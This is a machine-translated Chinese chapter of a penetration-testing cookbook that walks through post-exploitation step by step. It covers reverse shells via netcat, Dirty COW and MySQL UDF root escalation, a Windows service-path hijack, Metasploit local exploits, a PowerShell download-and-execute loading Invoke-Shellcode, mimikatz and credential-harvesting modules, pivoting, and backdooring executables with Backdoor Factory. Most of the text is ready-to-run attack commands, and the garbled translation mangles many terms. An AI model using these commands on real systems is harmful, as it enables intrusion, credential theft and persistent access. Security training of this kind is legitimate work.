# 现在有壳吗？

在本章中，我们将介绍以下配方：

*   产卵
*   寻找弱点
*   横向升级
*   纵向升级
*   节点跳跃：旋转
*   Windows 上的权限升级
*   动力普洛伊特
*   使用 mimikatz 拉取明文过程
*   从计算机中转储其他保存的密码
*   旋转
*   后门可执行文件以实现持久性

# 介绍

这是权限提升，如维基百科所述，**权限提升**是指利用操作系统或软件应用程序中的缺陷、设计缺陷或配置疏忽来提升对通常受应用程序或用户保护的资源的访问权限。这会导致未经授权访问资源。有两种类型的权限提升是可能的：

*   **水平**：这种情况发生在我们能够执行原本不用于当前用户访问的命令或功能的情况下
*   **垂直**：当我们能够将权限提升到更高的用户级别时，例如，在系统上获得 root 权限时，就会发生这种攻击

在本章中，您将了解提升我们在 Linux 和 Windows 系统上的权限以及访问内部网络的不同方式。

# 产卵

我们已经介绍了不同类型的权限提升。现在让我们看一些关于如何在这个系统上获得 TTY shell 的示例。TTY 展示了一个简单的文本输出环境，它允许我们键入命令并获得输出。

# 怎么做。。。

1.  让我们看一下下面的示例，其中有一个 web 应用程序运行 zenPHOTO：


2.  zenPHOTO 已经有一个公共漏洞在运行，我们可以通过一个有限的 shell 访问该漏洞：


3.  由于这是一个有限的 shell，我们尝试通过先在系统上上传`netcat`，然后使用`netcat`获得反向连接，来摆脱它并获得反向连接：

```
 wget x.x.x.x/netcat –o /tmp/netcat
```


4.  现在，我们可以使用以下命令进行反向连接：

```
 netcat <our IP > -e /bin/bash <port number>
```


5.  查看我们的终端窗口，在那里设置了侦听器，我们将看到一个成功的连接：

```
 nc –lnvp <port number>
```


让我们得到一个更稳定的 TTY 壳；假设它是一个 Linux 系统，我们已经在它上安装了 Python，我们可以使用以下方法获得一个 shell：

```
python -c 'import pty; pty.spawn("/bin/sh")'
```


我们现在有了更好的执行命令的方法。有时，我们可能会发现，通过 ssh 或其他方法访问的 shell 是有限的 shell

一个非常著名的受限 shell 是`lshell`，它只允许我们运行几个命令，例如`echo`、`ls`、`help`等等。逃离`lshell`很容易，因为我们所要做的就是键入以下类型：

```
echo os.system('/bin/bash')
```

我们可以访问一个没有更多限制的命令 shell。


# 还有更多。。。

使用 Ruby、Perl 等还有多种其他方法生成 TTY shell。这可以在[中看到 http://netsec.ws/?p=337](http://netsec.ws/?p=337) 。

# 寻找弱点

现在我们有了一个稳定的 shell，我们需要查找漏洞、错误配置或任何有助于提升系统权限的东西。在本食谱中，我们将介绍一些提升权限以获得系统根目录的方法。

# 怎么做。。。

在服务器上安装 shell 之后，我向大家推荐的基本步骤是尽可能多地进行枚举：我们知道的越多，就越有可能升级系统上的权限。

如`g0tmi1k`所述，升级系统特权的关键步骤如下：

*   **采集**：枚举，再枚举，再枚举。
*   **流程**：对数据进行整理、分析、排序。
*   **搜索**：知道要搜索什么以及在哪里找到漏洞代码。
*   **适应**：定制漏洞，使其适合。并非每个漏洞都适用于每个系统**开箱即用**。
*   **尝试**：为（大量）尝试和错误做好准备。

我们将看看互联网上最常见的一些脚本，它通过以格式化的方式打印出我们需要的任何内容，使我们的工作更容易。

第一个是`LinEnum`，是重启用户创建的 shell 脚本。它执行超过 65 项检查，并向我们展示了我们需要的一切：


查看源代码，我们将看到它将显示诸如内核版本、用户信息、世界可写目录等信息：


我们可以使用的下一个脚本是`LinuxPrivChecker`。它是用 Python 制作的。此脚本还建议在系统上使用权限提升漏洞：


这些脚本在谷歌上很容易找到；但是，有关此命令或我们可用于自己完成工作的手动命令的更多信息，请参见[http://netsec.ws/?p=309](http://netsec.ws/?p=309) 和 G0tmilk 的博客[https://blog.g0tmi1k.com/](https://blog.g0tmi1k.com/) 。

`Arr0way`（[又创造了一个伟大的剧本 https://twitter.com/Arr0way](https://twitter.com/Arr0way) 。他在自己的博客[上发表了这篇文章 https://highon.coffee/blog/linux-local-enumeration-script](https://highon.coffee/blog/linux-local-enumeration-script) 。我们可以阅读博客上的源代码来检查脚本所做的一切：


# 横向升级

您已经学习了如何生成 TTY 外壳并执行枚举。在本食谱中，我们将介绍一些方法，在这些方法中，可以进行水平升级以获得系统上的更多权限。

# 怎么做。。。

在这里，我们有一个情况，我们有一个反向 shell 作为`www-data`。

运行`sudo –-list`时，我们发现该用户可以作为另一个用户打开配置文件`waldo`：


因此，我们在 VI 编辑器中打开配置文件，为了在 VI 中获得 shell，我们在 VI 的命令行中键入：

```
!bash
```


我们现在有了一个用户`waldo`的 shell。因此，我们的升级是成功的。

在某些情况下，我们还可以在`ssh`目录中找到授权密钥或保存的密码，以帮助我们执行水平升级。

# 纵向升级

在本食谱中，我们将看一些示例，使用这些示例我们可以在一个组合框上访问根帐户。成功升级的关键是收集尽可能多的系统信息。

# 怎么做。。。

在任何框中查找根的第一步是检查是否存在任何公开可用的本地根漏洞：

1.  我们可以使用诸如**Linux 漏洞建议器**之类的脚本。这是一个用 Perl 构建的脚本，我们可以在其中指定内核版本，它将向我们展示可以用来获得根权限的可能的公开可用漏洞。脚本可从[下载 https://github.com/PenturaLabs/Linux_Exploit_Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester) ：

```
 git clone https://github.com/PenturaLabs/Linux_Exploit_Suggester.git
```



2.  现在我们使用`cd`命令进入目录：

```
 cd Linux_Exploit_Suggester/
```

3.  它使用简单，我们可以通过命令找到内核版本：

```
 uname –a
```

4.  我们还可以使用我们在前面的配方中看到的枚举脚本。获得版本后，我们可以使用以下命令将其与脚本一起使用：

```
 perl Linux_Exploit_Suggester.pl -k 2.6.18
```


让我们尝试使用其中一个漏洞；我们将使用最新推出的一款，即**脏牛**。

这是 RedHat 解释的脏 cow 的定义：Linux 内核的内存子系统处理私有只读内存映射的**写时拷贝**（**cow**）破坏的方式中发现了竞争条件。未经授权的本地用户可以使用此漏洞获得对只读内存映射的写访问权限，从而增加他们在系统上的权限。

可以在[的漏洞数据库上看到漏洞代码 https://www.exploit-db.com/exploits/40839/](https://www.exploit-db.com/exploits/40839/) 。此特定漏洞利用在`etc/passwd`中添加一个具有 root 权限的新用户：


我们下载该漏洞并将其保存在服务器的`/tmp`目录中。它是用 C 语言编写的，因此我们可以使用以下命令在服务器上使用`gcc`编译它：

```
gcc –pthread dirty.c –o <outputname> -lcrypt
```


我们`chmod`（更改文件权限）使用以下方法创建文件：

```
chmod +x dirty
```

然后我们使用`./dirty`运行它。我们将失去反向连接访问，但如果一切顺利，我们现在可以使用用户名`firefart`和密码`firefart`作为 root 用户`ssh`进入机器。

我们使用以下命令尝试`ssh`：

```
ssh –l firefart <IP Address>
```



现在，dirty cow 有点不稳定，但我们可以使用此解决方法使其稳定：

```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

让我们执行命令 ID；我们将看到，我们现在是根系统！


现在让我们看看实现根的另一种方法。在这种情况下，我们将假设系统上有一个 shell，并且我们运行的枚举脚本向我们显示 MySQL 进程是作为系统上的根运行的。


MySQL 有一个名为**自定义函数**（**自定义函数**的特性）；让我们看看一种通过 UDF 注射获得根的方法。现在我们有两个选择：要么下载代码并在受损系统上编译，要么从[下载预编译代码 https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so) 。


下载后，我们登录数据库。通常，人们会将默认的根密码留空；或者，我们可以从服务器上运行的 web 应用程序的配置文件中获取一个。

现在，我们创建一个表，并使用以下命令将文件插入表中：

```
create table <table name> (hello blob);
insert into <table name> values (load_file('/path/to/mysql.so'));
select * from <table name> into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
```


对于 Windows 系统，命令相同；只有 MySQL 的路径是不同的。

接下来，我们创建一个`sys_eval`函数，它允许我们以 root 用户的身份运行系统命令。对于 Windows，我们运行以下命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
```

对于 Linux，我们运行以下命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'mysqludf.so;
```

现在我们可以用`sys_eval`做我们想要的任何事情；例如，要进行反向连接，我们可以使用以下方法：

```
select sys_eval('nc –v <our IP our Port> -e /bin/bash');
```


这将为我们提供一个作为系统根的反向 shell：


还有其他方法，例如将当前用户添加到 sudoers 文件。这完全取决于我们的想象。

# 节点跳跃–旋转

一旦我们在网络上的一个系统中，我们现在需要在网络上寻找其他机器。信息收集与我们在前几章中学习的内容相同。我们可以从安装和使用 nmap 来查找其他主机以及正在运行的应用程序或服务开始。在本食谱中，您将了解访问网络中端口的一些技巧。

# 怎么做。。。

假设我们有一台机器的外壳访问权限。我们运行`ipconfig`发现机器内部连接到两个其他网络：


现在，我们对网络进行 nmap 扫描，找到一些打开了几个端口的机器。您了解了一种很酷的方法，可以将数据转到网络中，这样我们就可以访问运行在机器上其他网络后面的应用程序。

我们将使用以下命令进行`ssh`端口转发：

```
ssh –L <our port> <remote ip> <remote port> username@IP
```


完成此操作后，我们打开浏览器并转到使用的端口号：


我们将有权访问远程主机上运行的应用程序。

# 还有更多…

还有其他方法可以向前推进；例如，使用代理链将帮助您动态转发不同网络子网内服务器上运行的端口。一些技术可以在[中找到 https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/) 。

# Windows 上的权限升级

在本教程中，您将学习在 Windows 服务器上获取管理员帐户的几种方法。有多种方法可以获得 Windows 系统的管理员权限。让我们看看可以实现这一点的几种方法。

# 怎么做。。。

一旦我们在系统上安装了 MeterMeter，Metasploit 就有了一个内置模块，可以尝试三种不同的方法来获得管理员访问权限。首先，我们将看到臭名昭著的 Metasploit`getsystem`。要查看帮助，请键入以下内容：

```
getsystem –h
```



要尝试获取 admin，请键入以下命令：

```
getsystem
```


我们可以看到我们现在是`NT AUTHORITY\SYSTEM`。有时，这种技术可能不起作用，因此我们尝试另一种方法将系统安装到机器上。我们将研究一些重新配置 Windows 服务的方法

我们将使用**sc**（称为**服务配置**来配置 Windows 服务。
我们来看看`upnphost`服务：

```
sc qc upnphost
```


首先，我们将`netcat`二进制文件上传到系统上。完成后，我们可以使用二进制文件更改正在运行的服务的二进制文件路径：

```
sc config upnphost binPath= "<path to netcat>\nc.exe -nv <our IP> <our port> -e C:\WINDOWS\System32\cmd.exe"
```


```
sc config upnphost obj= ".\LocalSystem" password= ""
```


我们确认是否进行了以下更改：



现在我们需要重新启动该服务，一旦完成，我们应该拥有一个具有管理员权限的反向连接：

```
net start upnphost
```

除此之外，我们还可以使用`net user add`命令向系统添加新的管理员用户，而不是`netcat`。

现在，让我们尝试另一种方法：Metasploit 有许多不同的 Windows 本地漏洞利用。要查看它们，我们输入`msfconsole`并使用`exploit/windows/local <tab>`。


我们将使用`kitrap0d`进行开发。使用`exploit/windows/local/ms10_015_kitrap0d`。我们设置了 MeterMeter 会话和有效负载：


然后，我们运行该漏洞：


我们有管理员。让我们再利用一个漏洞：臭名昭著的`bypassuac`：

```
use exploit/windows/local/bypassuac
```

现在，我们在系统上设置当前流量计的会话：

```
 set session 1
```

我们运行并看到第二个具有管理员权限的 MeterMeter 为我们打开：



# 使用 PowerSploit

随着 PowerShell 的推出，利用 Windows 机器的新方法也出现了。如维基百科所述，PowerShell（包括 Windows PowerShell 和 PowerShell Core）是 Microsoft 提供的一个任务自动化和配置管理框架，由一个命令行 shell 和在.NET framework 上构建的相关脚本语言组成。

在此配方中，我们将使用 PowerSploit，这是一个基于 PowerShell 的后期开发框架，用于在系统上访问 MeterMeter。

# 怎么做…

以下是使用 PowerSploit 的步骤：

1.  我们现在假设一种情况，即我们有一个基于 Windows 的环境，在该环境中，我们已设法获得 shell 访问权限。我们没有系统的管理员权限。

2.  让我们来看看一种很酷的方法，它可以在不使用 PowerSploit 在系统上下载文件的情况下获取流量计。菜单中内置了卡利。


3.  这里的诀窍是下载 PowerShell 脚本并将其加载到内存中，因为它从未保存在 HDD 上，所以防病毒软件不会检测到它。
4.  我们首先通过运行`powershell`检查 PowerShell 是否已安装：


5.  我们将使用命令。使用单引号很重要；否则，可能会出现缺少括号的错误：

```
 powershell IEX (New-Object Net.WebClient).DownloadString
      ('https://raw.githubusercontent.com/PowerShellMafia/
      PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1')
```


6.  我们不应该看到任何错误。现在脚本已全部设置好，我们调用模块并使用以下命令查看帮助：

```
 Get-Help Invoke-Shellcode
```



7.  现在我们运行模块：

```
 powershell Invoke-Shellcode -Payload
      windows/meterpreter/reverse_https -Lhost 192.168.110.33
      -Lport 4444 –Force
```


8.  在运行前面的脚本之前，我们先启动处理程序。


9.  我们现在应该有一个流量计了。


10.  既然我们有了 MeterMeter，我们就可以使用前面提到的任何方法来获得系统权限。

# 还有更多…

PowerSploit 有许多 PowerShell 模块可用于进一步利用，如获取权限、绕过防病毒等。

我们可以在以下网址阅读所有相关信息：

*   [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
*   [https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-powersploit-part-1-evading-antivirus-software-0165535/](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-powersploit-part-1-evading-antivirus-software-0165535/)

# 使用 mimikatz 提取明文密码

现在我们有了一个 MeterMeter，我们可以使用它从内存中转储密码。Mimikatz 是一个很好的工具。它尝试并从内存中转储密码。
根据米米卡茨的创造者自己的定义：

“它是用 C 语言制作的，被认为是 Windows 安全性的一些实验”，现在大家都知道从内存中提取明文密码、散列、PIN 码和 kerberos 票据。Mimikatz 还可以执行传递散列、传递票证或生成黄金票证。”

# 怎么做…

以下是使用 mimikatz 的步骤：

1.  拥有 MeterMeter 和系统权限后，使用以下命令加载 mimikatz：

```
 load mimikatz
```



2.  要查看所有选项，请键入以下命令：

```
 help mimikatz
```

3.  现在，为了从内存中检索密码，我们使用 Metasploit 的内置命令：

```
 msv
```



4.  我们可以看到屏幕上显示了 NTLM 哈希。要查看 Kerberos 凭据，请键入以下内容：

```
 kerberos
```


如果有任何凭证，它们会显示在这里。

# 从计算机中转储其他保存的密码

您已经了解了如何从内存中转储和保存明文密码。但是，有时并非所有密码都被转储。不用担心；Metasploit 还有其他利用后模块，使用这些模块，我们可以收集在我们破坏的服务器上运行的不同应用程序和服务的保存密码

# 怎么做。。。

首先，让我们检查机器上正在运行哪些应用程序。我们使用以下命令：

```
use post/windows/gather/enum_applications
```


我们看到了各种选择；现在，我们只需要使用以下命令进行会话：

```
set session 1
```

运行它，我们将看到系统上安装的应用程序列表：


现在我们知道了正在运行的应用程序，让我们尝试收集更多信息。
我们将使用`post/windows/gather/enum_chrome`。

它将收集所有浏览历史记录、保存的密码、书签等。我们再次设置会话并运行以下操作：



我们将看到所有收集的数据都保存在 txt 中：


现在，我们将尝试收集安装在计算机上的 FileZilla 服务器（可用于传输文件的 FTP 服务器）的存储配置和凭据。我们将使用以下模块：

```
use post/windows.gather/credentials/filezilla_server
```



我们设置并运行了会话，应该可以看到保存的凭据：


让我们使用另一个利用后模块转储数据库密码。我们将使用以下方法：

```
use exploit/windows/gather/credentials/mssql_local_hashdump
```


我们设置了会话并使用`run -j`运行它。我们将在屏幕上看到凭据：


# 转向网络

一旦我们完全控制了系统中的一台计算机，我们的下一步应该是转向网络，并尝试利用和访问尽可能多的机器。在本食谱中，您将学习使用 Metasploit 实现这一点的简单方法。

# 怎么做。。。

Metasploit 有一个内置的 MeterMeter 脚本，允许我们添加路由，并允许我们使用当前路由攻击网络中的其他机器。这个概念非常简单；我们所要做的就是执行以下操作：

```
run autoroute –s <IP subnet>
```


一旦完成了，我们就可以简单地使用我们在前面的配方中介绍的相同方法利用这些机器。

# 后门持久化

成功利用此漏洞的一个重要部分是能够保持对受损机器的访问。在本食谱中，您将了解一种称为后门工厂的神奇工具。Backdoor Factory 的主要目标是用 shell 代码修补 Windows/Linux 二进制文件，使可执行文件能够正常运行，并在每次执行 shell 代码时执行它。

# 怎么做。。。

后门工厂安装了卡利。并且可以使用`backdoor-factory`运行。要查看此工具的所有功能，我们将使用 help 命令：

```
backdoor-factory –help
```


使用这个工具不太难；但是，建议在将二进制文件部署到目标系统之前对其进行测试。

要查看我们选择“后门”的特定二进制文件的可用选项，请使用以下命令：

```
backdoor-factory –f <path to binary> -s show
```

然后我们将使用`iat_reverse_tcp_stager_threaded`：

```
backdoor-factory –f <path to binary> -s iat_reverse_tcp_stager_threaded –H <our IP> -P <Port>
```


接下来，我们选择要用于注入有效负载的洞穴：



我们的二进制文件已经创建，可以部署了。

现在我们需要做的就是运行一个处理程序，该处理程序将接受来自负载的反向连接：


现在当`.exe`在受害者机器上执行时，我们将连接我们的计量表：

